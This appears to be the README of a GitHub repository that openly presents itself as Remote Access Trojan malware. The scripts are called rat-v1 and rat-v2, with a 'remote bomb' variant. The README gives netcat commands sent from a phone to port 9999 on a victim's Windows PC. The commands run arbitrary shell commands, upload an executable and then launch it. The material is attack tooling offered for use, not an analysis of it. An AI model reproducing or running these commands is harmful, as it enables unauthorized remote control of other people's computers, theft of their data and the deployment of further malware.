 # What is this?

This repo consists of essentially a Remote Access Trojan (RAT) server template. It allows an attacker to remotely access and control a victim's computer(kinda), execute commands, upload files and execute them, and potentially steal sensitive data or deploy malware. THIS IS MALWARE!

---

## rat-v1
Description - This is a simple easily editable python script that uses remote execution like a remote bomb to execute commands!

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```
  
> NOTE: Replace {PC_IP_ADDRESS} with the IP address of your Windows PC. Make sure your firewall allows connections on port 9999.
---


## rat-v2
Description - This is the same as `bomb-v1` but you can now upload a file from your phone to your pc

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```

* **Upload a file** to the Windows PC
  ```
  echo "upload your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  cat your_file_name.exe | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute the uploaded file:**
  ```
  echo "exec your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  ```

> NOTE: Replace `your_file_name.exe` with the file you want to upload and `{PC_IP_ADDRESS}` with the IP address of your Windows PC.


---

# src/bomb.py
(this is an example on how you can make a "remote bomb" out of this script lol)

* this will destroy a pc(not literaly) if executed properly

---

# oth/

* other versions of the script(s) made in diffrent languages.
